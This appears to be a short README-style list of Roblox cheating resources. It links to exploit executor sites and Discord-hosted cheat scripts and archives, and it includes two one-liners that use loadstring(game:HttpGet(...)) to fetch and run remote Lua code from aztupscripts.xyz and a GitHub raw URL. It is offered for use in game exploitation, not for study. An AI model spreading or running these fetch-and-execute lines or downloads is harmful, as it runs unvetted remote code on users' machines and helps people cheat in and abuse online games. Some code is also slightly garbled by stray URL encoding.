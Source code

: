 # ROBLOX Hacks

# Executors

https://wearedevs.net/exploits

https://natevanghacks.com/scriptexecutors.php

# ROBLOX Scripts

c00lkidd GUI
https://cdn.discordapp.com/attachments/726597535073828886/728757669787074560/c00lkidd_gui.txt 

Script Pack
https://cdn.discordapp.com/attachments/726597535073828886/727956675880812549/Script_Pack.rar

AZTUP HUB (ONLY WORKS ON KRNL)

pcall(function()getgenv().Key="TRIAL_KEY_KRNL_ONLY"local a=secure_load and"Sentinel"or pebc_execute and"ProtoSmasher"or is_sirhurt_closure and"Sirhurt"or syn and"SynapseX" or KRNL_LOADED and "Krnl" loadstring(game:HttpGet("https://aztupscripts.xyz/Api/getScript?Key=TRIAL_KEY_KRNL_ONLY&customUI=&Exploit=%22..a))()end)

Splash v1.4 WORKS ON EVERYGAME
https://cdn.discordapp.com/attachments/726597535073828886/726599646629199882/SplashV1.4_1.txt

 OWL HUB 
loadstring(game:HttpGet("https://raw.githubusercontent.com/CriShoux/OwlHub/master/OwlHub.txt%22))();

Wonder Woman Event Autofarm 
https://cdn.discordapp.com/attachments/726597535073828886/726598176156680232/Wonder_Woman_The_Themyscira_Experience_COIN_AUTO_FARM.txt

Lumber Tycoon 2 Hub
https://cdn.discordapp.com/attachments/726597535073828886/726598058069983283/SnakeHaxV5.1fixed.txt

Tesla Hub
https://cdn.discordapp.com/attachments/726597535073828886/726597901622575114/Tesla_Hub.txt
